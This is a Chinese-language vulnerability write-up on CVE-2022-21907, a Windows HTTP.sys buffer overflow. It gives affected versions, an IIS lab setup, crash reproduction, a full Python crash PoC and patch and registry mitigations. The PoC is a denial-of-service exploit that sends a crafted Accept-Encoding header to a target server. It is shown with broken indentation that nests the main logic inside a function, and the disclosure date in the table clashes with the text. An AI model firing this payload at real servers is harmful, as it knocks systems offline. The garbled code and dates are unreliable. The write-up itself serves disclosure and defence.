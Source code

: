 
# 0X00 漏洞信息
2022年1月14日，监测到一则微软官方公开并修复了Microsoft Windows HTTP协议栈远程代码执行（CVE-2022-21907）漏洞的信息。该漏洞是由于 HTTP 协议栈(HTTP.sys)中的 HTTP Trailer Support 功能中存在边界错误导致缓冲区溢出。Windows HTTP 协议栈（HTTP.sys）是Windows操作系统中处理HTTP请求的内核驱动程序，常见于Web浏览器与 Web 服务器之间的通信，以及Internet Information Services (IIS)中。<br />未授权的远程攻击者通过向 Web 服务器发送一个特制的 HTTP 请求，触发缓冲区溢出，从而在目标系统上执行任意代码或造成服务器拒绝服务。<br />未经身份验证的攻击者通过向Web服务器发送特制的HTTP数据包，从而在目标系统上执行任意代码。<br />该漏洞被微软提示为“可蠕虫化”，无需用户交互便可通过网络进行自我传播，目前已发现可造成目标主机蓝屏崩溃的漏洞利用出现，请相关用户尽快采取措施进行防护。


# 0X01 漏洞概述
| 漏洞名称 | HTTP协议栈远程代码执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2022-21907 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 20211214 |
| 分数 | 9.8 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2022-21907#vulnCurrentDescriptionTitle](https://nvd.nist.gov/vuln/detail/CVE-2022-21907#vulnCurrentDescriptionTitle) |


# 0X02 影响范围
**受影响版本：**
```
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows 11 for ARM64-based Systems
Windows 11 for x64-based Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```

**不受影响版本：**
```
Windows 10 version 1909
Windows Server 2019（默认配置不受影响）
Windows 10 version 1809（默认配置不受影响）
```


# 0X03 环境搭建
1、搭建存在漏洞的Win10系统
![image.png](./assets/1659429240424-975bfe71-6e46-4afe-8b23-55b4e00d6047.png)

2、启用IIS服务
![image.png](./assets/1659429280269-9c97d32e-2b2f-4b65-bf4d-8e51218f48ee.png)

3、启动网站
![image.png](./assets/1659429321696-6b28239c-b610-4880-8273-7fa00e05bb0e.png)

4、访问网站，成功访问则环境搭建成功。


# 0X04 代码审计



# 0X05 漏洞复现
运行POC脚本后，系统蓝屏。
```python
$ ./CVE-2022-21907_http.sys_crash.py -h
usage: CVE-2022-21907_http.sys_crash.py [-h] -t TARGET [-v]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IIS Server.
  -v, --verbose         Verbose mode. (default: False)
```

```python
./CVE-2022-21907_http.sys_crash.py -t 192.168.1.18
```
![image-20220120100402148.png](./assets/1659429724219-1bf3a822-870d-4435-9f39-93b121734f72.png)

分析Dump文件
![image.png](./assets/1659429514403-5956a098-431d-44fb-9166-378018807314.png)

调用栈情况
![image.png](./assets/1659429552334-859668b8-4509-4360-ab92-d7328f09e97c.png)


# 0X05 POC
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# File name          : CVE-2022-21907_http.sys_crash.py
# Author             : Podalirius (@podalirius_)
# Date created       : 13 Jan 2022

import argparse
import datetime
import requests
import time
import threading


def parseArgs():
    parser = argparse.ArgumentParser(description="Description message")
    parser.add_argument("-t", "--target", default=None, required=True, help='Target IIS Server.')
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help='Verbose mode. (default: False)')
    return parser.parse_args()


def monitor_thread(target, dtime=5):
    print('[>] Started monitoring of target server for the next %d seconds.' % dtime)
    for k in range(dtime):
        try:
            r = requests.get(target, timeout=1)
        except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
            print("   [%s] \x1b[1;91mTarget is down!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
        else:
            print("   [%s] \x1b[1;92mTarget is reachable!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
            time.sleep(1)
            
            
            if __name__ == '__main__':
                options = parseArgs()
                
                if not options.target.startswith('http://') and not options.target.startswith('https://'):
                    target = "http://" + options.target
                else:
                    target = options.target
                    
                    payload = 'AAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&AA&**AAAAAAAAAAAAAAAAAAAA**A,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAA,****************************AAAAAA, *, ,'
                    
                    # Starting monitoring thread
                    t = threading.Thread(target=monitor_thread, args=(target,))
                    t.start()
                    time.sleep(2)
                    
                    # Sending payload
                    print("   [+] Sending payload ...")
                    try:
                        r = requests.get(target, headers={"Accept-Encoding": payload}, timeout=15)
                    except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectTimeout) as e:
                        t.join()
                        print("[%s] \x1b[1;91mTarget successfully crashed!\x1b[0m" % datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"))
                        
                        # Cleanup
    t.join()
```


# 0X06 解决方案
**补丁更新：**<br />Windows系统默认启用Microsoft Update，当检测到可用更新时，将会自动下载更新并在下一次启动时安装。还可通过以下步骤快速安装更新：

1. 点击“开始菜单”或按Windows快捷键，点击进入“设置”
2. 选择“更新和安全”，进入“Windows更新”（Windows8、Windows 8.1、WindowsServer 2012以及Windows Server2012 R2可通过控制面板进入“Windows更新”，步骤为“控制面板”->“系统和安全”->“Windows更新”）
3. 选择“检查更新”，等待系统将自动检查并下载可用更新
4. 重启计算机，安装更新

目前微软官方已针对受支持的产品版本发布了修复以上漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21907) <br />注：由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。<br />针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。


**临时防护**<br />若使用Windows Server 2019和Windows 10 version 1809版本的用户暂时无法安装补丁，可使用下列措施进行临时缓解：

在DWORD注册表中删除“EnableTrailerSupport”可防护此漏洞的攻击，“EnableTrailerSupport”的路径为：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\HTTP\Parameters

注：当用户通过EnableTrailerSupport注册表值启用了HTTP Trailer Support时，以上版本才受该漏洞影响，默认配置时不受该漏洞影响

